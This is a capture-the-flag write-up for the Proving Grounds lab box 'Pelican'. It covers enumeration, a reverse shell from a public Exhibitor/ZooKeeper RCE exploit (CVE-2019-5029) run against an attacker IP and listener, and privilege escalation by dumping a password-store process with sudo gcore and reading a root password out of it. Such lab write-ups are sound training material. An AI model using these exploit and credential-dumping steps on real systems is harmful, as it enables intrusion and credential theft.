 Pelican is an intermediate Proving Grounds box, also rated as intermediate by the community. `gcore` and `strings` are binaries used in this lab to extract credentials from snapshots of a particular program which are then used for privilege escalation.

We will start with a basic `nmap` scan:

```
nmap <target ip> -sC -sS -sV -Pn -p- -T4 --min-rate 10000
```

![Nmap 1](assets/pelican/nmap-1.png)

![Nmap 2](assets/pelican/nmap-2.png)

Ports of interest are `8080` and `8081`, but because it looks like `8080` leads to a `404` dead end, we can start with `8081`.

![Port8080 1](assets/pelican/port8080-1.png)

While we analyze port `8080`, we can begin a `dirsearch`:

```
python3 dirsearch.py -u <target ip>:8081 -e html,txt,php -x 400,401,403,404
```

![Dirsearch 1](assets/pelican/dirsearch-1.png)

Nothing of interest found. From the landing page of port `8080` we can see a version number (v1.0) on the top right. Let's enumerate this number along with key words like ZooKeeper and Exhibitor, which are potential service names.

```
searchsploit zookeeper
```

![Searchsploit 1](assets/pelican/searchsploit-1.png)

We get back a result with `searchsploit`, confirming that ZooKeeper is indeed a service. But the version number doesn't seem to match. Let's hit up Google:

![Google 1](assets/pelican/google-1.png)

[Exploit DB](https://www.exploit-db.com/exploits/48654)

![ExploitDB 1](assets/pelican/exploitdb-1.png)

ExploitDB tells us this is an RCE vulnerability which is always good news for hackers. Looking up the CVE number on Google lands us at a Github PoC:

![Google 2](assets/pelican/google-2.png)

![Github 1](assets/pelican/github-1.png)

`git clone` the repo and let's execute this bad boy! :smile:

```
python3 CVE-2019-5029 <target ip> <target port> <attacker ip> <attacker port>
```

Have a listener up on port 80 on another with `nc` or `penelope`:

![Exploit 1](assets/pelican/exploit-1.png)

![Shell 1](assets/pelican/shell-1.png)

We got a shell! We're logged in as the user `charles`. Let's see if we can grab the initial foothold flag:

![Localflag 1](assets/pelican/localflag-1.png)

With a little bit of digging, the `local.txt` flag was found. Easy wins first: what does `sudo -l` give us? In other words, what can `charles` run as `sudo`?

```
sudo -l
```

![Sudo 1](assets/pelican/sudo-1.png)

`gcore` is an interesting binary, but I haven't ran into it myself before. GTFOBins gives us a nice rundown on the command:

![GTFOBins 1](assets/pelican/gtfobins-1.png)

In other words, this is telling us that `gcore` can be used to create snapshots of programs that can potentially have sensitive information. We'll keep this in mind as we enumerate the machine further. Let's move on to transferring both `pspy` and `linpeas` files to the target box:

```
./pspy32s
```

![Pspy 1](assets/pelican/pspy-1.png)

A process does seem to be running repeatedly in the background, but not really sure what it could be or how it relates to `gcore` yet. Let's try `linpeas`:

```
./linpeas
```

![Linpeas 1](assets/pelican/linpeas-1.png)

Couldn't find anything super interesting in the `linpeas` output except for maybe potential hidden ports that we can enumerate later. Check the machines `crontab`:

```
cat /etc/crontab
```

![Crontab 1](assets/pelican/crontab-1.png)

We get that same output from `pspy` here and it looks like another process is running that we didn't catch before: `password-store`. Let's use `ps aux` to analyze this program further:

```
ps aux | grep "password"
```

![ps aux 1](assets/pelican/ps-aux-1.png)

`password-store` is indeed running in the background and now we know the PID of the process: `486`. With the information on `gcore` from GTFOBins, it's possible that sensitive data is stored within `password-store`.

```
sudo /usr/bin/gcore 486
```

![Gcore 1](assets/pelican/gcore-1.png)

![Gcore 2](assets/pelican/gcore-2.png)

We've created a snapshot in memory of the `password-store` process under `core.486`. It's a binary which means it isn't human readable, so we use `strings` to extract anything that is:

```
strings core.486
```

![Gcore 3](assets/pelican/gcore-3.png)

![Gcore 4](assets/pelican/gcore-4.png)

Scrolling through the output we find something that seems like the `root` password.

```
ClogKingpinInning731
```

Doesn't hurt to try logging into `root` with it:

```
su - root
```

![Root 1](assets/pelican/root-1.png)

Rooted! :partying_face:
